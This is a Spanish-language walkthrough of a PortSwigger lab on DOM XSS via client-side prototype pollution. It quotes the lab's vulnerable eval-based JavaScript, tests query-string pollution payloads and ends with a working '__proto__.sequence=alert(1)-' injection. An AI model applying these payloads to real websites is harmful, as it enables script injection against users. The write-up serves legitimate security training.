 ```yaml
---
description: >-
  https://portswigger.net/web-security/prototype-pollution/client-side/lab-prototype-pollution-dom-xss-via-an-alternative-prototype-pollution-vector
---
```


# Lab 3: DOM XSS via an alternative prototype pollution vector

Al validar la siguiente carga no funciona:

```
/?__proto__[foo]=bar
```

Y se puede apreciar al ejecutar lo siguiente desde el devtools: `Object.prototype`

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

Por lo anterior, se envia otra carga:

```
/?__proto__.hacked=gerh
```

Y se logra ver que si funciono ejecutando desde el devtools: `Object.prototype`

<figure><img src="../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Por lo anterior, se procede a analizar el codigo fuente de JS:

```javascript
async function logQuery(url, params) {
    try {
        await fetch(url, {method: "post", keepalive: true, body: JSON.stringify(params)});
    } catch(e) {
        console.error("Failed storing query");
    }
}

async function searchLogger() {
    window.macros = {};
    window.manager = {params: $.parseParams(new URL(location)), macro(property) {
            if (window.macros.hasOwnProperty(property))
                return macros[property]
        }};
    let a = manager.sequence || 1;
    manager.sequence = a + 1;

    eval('if(manager && manager.sequence){ manager.macro('+manager.sequence+') }');

    if(manager.params && manager.params.search) {
        await logQuery('/logger', manager.params);
    }
}

window.addEventListener("load", searchLogger);
```

El código proporcionado es susceptible a _prototype pollution_ debido a la forma en que se maneja el objeto `params` y la posibilidad de que se manipule de manera insegura. Aquí hay un análisis detallado de las razones:

1.  **Manipulación del objeto `params`**:

    ```javascript
    await fetch(url, {method: "post", keepalive: true, body: JSON.stringify(params)});
    ```

    El objeto `params` que se envía en el cuerpo de la solicitud podría ser manipulado por un atacante. Si el `params` contiene propiedades que alteran el prototipo de objetos nativos como `Object.prototype`, podría introducir propiedades no deseadas en todos los objetos de ese tipo en la aplicación.
2.  **Uso de `eval`**:

    ```javascript
    eval('if(manager && manager.sequence){ manager.macro('+manager.sequence+') }');
    ```

    El uso de `eval` con datos potencialmente controlados por el usuario (`manager.sequence`) es extremadamente peligroso. Esto permite la ejecución de código arbitrario, lo que podría explotarse para modificar el prototipo de objetos globales.
3.  **Dependencia de `$.parseParams`**:

    ```javascript
    window.manager = {params: $.parseParams(new URL(location)), macro(property) {
            if (window.macros.hasOwnProperty(property))
                return macros[property]
            }};
    ```

    La función `$.parseParams` podría ser manipulada para introducir propiedades maliciosas en `params`. Si `params` se construye a partir de una cadena de consulta controlada por el usuario, esto abre la puerta a la contaminación del prototipo.

Por lo anterior, enviamos la siguiente carga:

```
/?__proto__.sequence=alert(1)
```

Y lo anterior, genero el siguiente error:

<figure><img src="../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

La anterior payload no funciono y no genero el XSS.

Si analizamos con el debugger, se logra apreciar que el payload se le esta agregando "1" al final:

<figure><img src="../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

Lo anterior es debido a la linea 16 que suma la variable mas "1".

Teniendo en cuenta lo anterior, enviaremos una carga adicionando el caracter "-".

<figure><img src="../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

La carga utilizada para desplegar el XSS fue la siguiente:

```
?__proto__.sequence=alert(1)-
```

